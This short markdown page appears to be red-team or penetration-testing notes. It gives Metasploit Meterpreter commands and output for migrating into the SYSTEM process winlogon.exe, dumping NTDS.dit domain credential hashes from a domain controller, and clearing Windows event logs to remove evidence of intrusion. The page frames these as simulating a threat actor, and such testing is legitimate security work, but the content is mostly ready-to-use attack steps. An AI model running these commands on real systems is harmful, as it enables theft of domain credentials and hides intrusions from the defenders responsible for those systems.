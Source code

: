 ## Process Injection
```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...
```
List Processes with ps
```
meterpreter > ps
```
Pick a process that has SYSTEM and is x64

```
Process List
============

 PID   PPID  Name                         Arch  Session  User                          Path
 ---   ----  ----                         ----  -------  ----                          ----

812   708   winlogon.exe                 x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
```

Example winlogon.exe

Run migrate with process id of target
```
meterpreter > migrate 812
[*] Migrating from 7236 to 812...
[*] Migration completed successfully.
```

## Credential Access Dump NTDS.dit

Assumes you have a priveleged shell on domain controller
```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...

meterpreter > run windows/gather/credentials/domain_hashdump
```

## Defense Evasion Clear Logs

Simulate threat actor removing evidence of their intrusion.

```
msf6 exploit(multi/handler) > sessions -i N
[*] Starting interaction with N...

meterpreter > clearev
```
# Phase 3 Testing
